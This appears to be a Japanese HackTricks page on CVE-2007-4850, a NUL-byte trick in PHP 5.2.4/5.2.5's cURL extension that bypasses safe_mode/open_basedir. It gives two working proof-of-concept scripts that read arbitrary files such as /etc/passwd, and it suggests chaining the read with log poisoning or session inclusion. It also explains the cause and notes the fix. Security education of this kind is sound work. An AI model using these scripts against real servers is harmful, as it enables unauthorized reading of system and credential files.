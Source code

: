 # PHP 5.2.4 と 5.2.5 の PHP cURL

{{#include ../../../../banners/hacktricks-training.md}}

このページは、特定の PHP 5.2.x ビルドで cURL 拡張を使用して PHP safe_mode/open_basedir チェックをバイパスする、レガシーだが CTFs やローカルのレガシーインストールで依然有用なトリックを記載しています。

- 影響範囲: PHP 5.2.4 と 5.2.5（ext/curl 有効）。
- 影響: safe_mode や open_basedir 制限にもかかわらず任意のローカルファイルを読み取れる（直接のコード実行は不可）。
- ID: CVE-2007-4850.

出典: http://blog.safebuff.com/2016/05/06/disable-functions-bypass/

## One-liner PoC

safe_mode または open_basedir が有効で cURL が有効化されている場合、以下は現在のスクリプトの内容を返します:
```php
var_dump(curl_exec(curl_init("file://safe_mode_bypass\x00".__FILE__)));
```
## より明確なPoC (arbitrary file read)
```php
<?php
// Preconditions (legacy): PHP 5.2.4/5.2.5, safe_mode or open_basedir enabled, ext/curl loaded
$target = '/etc/passwd'; // change to the file you want to read
$ch = curl_init();
// The trick is the NUL byte (\x00). Prefix can be any string; checks are confused and the file after the NUL is read.
curl_setopt($ch, CURLOPT_URL, 'file://prefix'.chr(0).$target);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
$resp = curl_exec($ch);
$err  = curl_error($ch);
curl_close($ch);
if ($resp !== false) {
echo $resp; // should contain the target file
} else {
echo "cURL error: $err\n";
}
?>
```
注意事項:
- 実際の NUL バイトを注入するには、ダブルクォートまたは chr(0) を使用してください。Percent-encoding (%00) は確実には動作しません。
- これはファイル読み取りプリミティブです。可能な場合は、他のプリミティブ（log poisoning、session file inclusion など）と組み合わせてさらに権限昇格を図ってください。

## なぜこれが機能するか（概要）

脆弱性は、PHP 5.2.4/5.2.5 が ext/curl 内で file:// URL に対して safe_mode/open_basedir チェックを行う方法にあります。チェック処理は URL を解析してパス成分を検証しましたが、NUL バイトの扱いにより、実際に libcurl が使用する文字列とは異なる文字列が検証されていました。実際には、バリデータは NUL の後のパスを許可できる一方で、libcurl は NUL より前の部分を URL コンテナとして使用しており、NUL バイトの後に配置されたファイルを読み取ることを可能にするバイパスが発生します。詳細はオリジナルの解析と curl/interface.c の影響を受けるマクロを参照してください。[CVE-2007-4850]

## 制約と修正

- ext/curl の解析/検証を修正することで、後続の 5.2.x（例: ディストリビューションで 5.2.6 にパッチされたビルド）で修正されています。
- 非常に古い PHP 展開にのみ影響します。safe_mode は PHP 5.4 で削除されており、現代のビルドではこの挙動は発生しません。

## 関連

他の disable_functions/open_basedir バイパスや最新の手法はここにまとめられています:

{{#ref}}
README.md
{{#endref}}



## 参考

- Ubuntu の CVE エントリ（パッチ参照と影響を受けるバージョン）: https://ubuntu.com/security/CVE-2007-4850
- コードコンテキストを含む技術的解説（cxsecurity）: http://cxsecurity.com/issue/WLB-2008010060
{{#include ../../../../banners/hacktricks-training.md}}
